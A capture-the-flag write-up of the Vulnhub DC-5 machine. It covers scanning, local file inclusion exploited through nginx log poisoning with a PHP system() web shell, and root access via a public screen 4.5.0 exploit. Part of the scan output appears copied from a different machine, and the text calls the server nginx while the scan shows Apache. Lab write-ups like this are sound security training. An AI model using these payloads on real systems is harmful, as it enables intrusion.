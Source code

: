 ```yaml
---
"title": "Vulnhub - DC 5"
"date": 2019-11-19
"tags": ["easy", "lfi", "log-poisoning"]
"keywords": ["easy", "lfi", "log-poisoning"]
"categories": ["Vulnhub"]
"author": "Ghostbyt3"
"description": "Today, We are going to pwn DC 5 by DCAU7 from Vulnhub"
"featured_image": "/img/dc5/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Vulnhub - Writeup"
---
```



![Untitled](/img/dc5/1.png)
Today, We are going to pwn DC 5 by DCAU7 from Vulnhub


## Description
>DC-5 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
The plan was for DC-5 to kick it up a notch, so this might not be  great for beginners, but should be ok for people with intermediate or  better experience. Time will tell (as will feedback).
As far as I am aware, there is only one exploitable entry point to  get in (there is no SSH either). This particular entry point may be  quite hard to identify, but it is there. You need to look for something a  little out of the ordinary (something that changes with a refresh of a  page). This will hopefully provide some kind of idea as to what the  vulnerability might involve.
And just for the record, there is no phpmailer exploit involved. :-)
The ultimate goal of this challenge is to get root and to read the one and only flag.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always  tweet me at @DCAU7 for assistance to get you going again. But take note:  I won't give you the answer, instead, I'll give you an idea about how  to move forward.
But if you're really, really stuck, you can watch this video which shows the first step.

Download link: [https://www.vulnhub.com/entry/dc-5,314/](https://www.vulnhub.com/entry/dc-5,314/)

Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
45669/tcp open  unknown
```

```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Looks like only HTTP port is open so lets start our Gobuster

## Gobuster Result
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.9
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/27 17:30:35 Starting gobuster
===============================================================
/css (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
===============================================================
2019/11/27 17:30:36 Finished
===============================================================
```

Well gobuster didn’t find anything interesting.

Lets Check the webpage and nothing Interesting too.

![Untitled](/img/dc5/1.png)

But there is form in ``contact`` page.

![Untitled](/img/dc5/2.png)

So i filled some random datas and submitted

![Untitled](/img/dc5/3.png)

## Getting Shell

### Finding LFI

Once submitted it redirects to some new page with some kind of parameters. I think it is vulnerable to LFI (Local File Inclusion)
So lets test it.

![Untitled](/img/dc5/4.png)
Its Confirmed!!
Now all we need to do is get a reverse shell.

### LFI -> RCE
We know its running in nginx from nmap scans so we can do log poisoning.
For that we need to send a request

`` [?php system($_GET['cmd']); ](?php system($_GET['cmd']); )>``

Now its injected , we know log files of nginx located in ``/var/log/nginx/error.log``

![Untitled](/img/dc5/5.png)
For more info read this article:
>https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/

We got the shell

![Untitled](/img/dc5/6.png)

## Privilege Escalation

I uploaded my Linux Enumeration Script and found SETUID file

![Untitled](/img/dc5/7.png)

>screen 4.5.0

Searchsploit shows me an exploit available

![Untitled](/img/dc5/8.png)

> [https://www.exploit-db.com/exploits/41154](https://www.exploit-db.com/exploits/41154)

I uploaded the script to the machine and tried running but i faced some error , so i split them into 3 parts

![Untitled](/img/dc5/9.png)

And did the same commands

```
gcc -fPIC -shared -ldl -o exploit.so exploit.c
gcc -o rootshell rootshell.c
```
Now I uploaded them

![Untitled](/img/dc5/10.png)

Run 411.sh

![Untitled](/img/dc5/11.png)

We got Root 

``Flag`` [br/](br/)
![Untitled](/img/dc5/13.png)

